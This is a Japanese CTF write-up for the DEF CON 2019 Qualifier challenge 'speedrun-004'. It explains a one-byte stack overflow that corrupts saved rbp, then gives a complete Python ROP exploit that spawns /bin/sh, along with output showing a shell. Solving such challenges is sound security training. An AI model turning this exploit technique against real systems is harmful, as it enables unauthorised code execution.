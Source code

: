 # [pwn 5pts] speedrun-004 - DEF CON CTF 2019 Qualifier
64ビットでSSPやPIEは無効です。
```
$ checksec -f speedrun-004
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No	0		0	speedrun-004
```
バッファに入力するサイズを指定できます。
入力サイズはチェックされますが、1バイトだけオーバーフローがあります。
これによりsaved rbpが書き換えられるので、確率的にリターンアドレスを自分の用意したスタック上の値に変更できます。
以前Securinets CTFで解いた問題と同様にret gadgetで成功確率を高めましょう。
`/bin/sh`という文字はバイナリ中にありませんでしたが、~~`sh`があったのでこれを使ってROPします。~~
`sh`だとsyscallが失敗したので`/bin/sh`を作ります。

```python
from ptrlib import *

libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
elf = ELF("./speedrun-004")

#sock = Socket("speedrun-004.quals2019.oooverflow.io", 31337)
sock = Process("./speedrun-004")

sock.recvuntil("say?\n")
sock.send(str(0x101))

addr_read = 0x44a140
rop_pop_rdi = 0x00400686
rop_pop_rax = 0x00415f04
rop_pop_rsi = 0x00410a93
rop_pop_rdx = 0x0044c6b6
rop_pop_rsp = 0x00401e43
rop_syscall = 0x00474f15
rop_ret = 0x00400416

payload = b''
# read(0, bss, 8)
payload += p64(rop_pop_rdi)
payload += p64(0)
payload += p64(rop_pop_rsi)
payload += p64(elf.section(".bss"))
payload += p64(rop_pop_rdx)
payload += p64(8)
payload += p64(rop_pop_rax)
payload += p64(0)
payload += p64(rop_syscall)
# system("/bin/sh")
payload += p64(rop_pop_rsi)
payload += p64(0)
payload += p64(rop_pop_rdx)
payload += p64(0)
payload += p64(rop_pop_rdi)
payload += p64(elf.section(".bss"))
payload += p64(rop_pop_rax)
payload += p64(59)
payload += p64(rop_syscall)
payload += b'\x00'
payload = p64(rop_ret) * ((0x100 - len(payload)) // 8 + 1) + payload

sock.recvuntil("self?\n")
sock.send(payload)

sock.send("/bin/sh\x00")

sock.interactive()
```

できた。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=1094)
[ptrlib]$ Interesting thought "@", I'll take it into consideration.
id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$ 
```

# 感想
なかなか面白かったです。

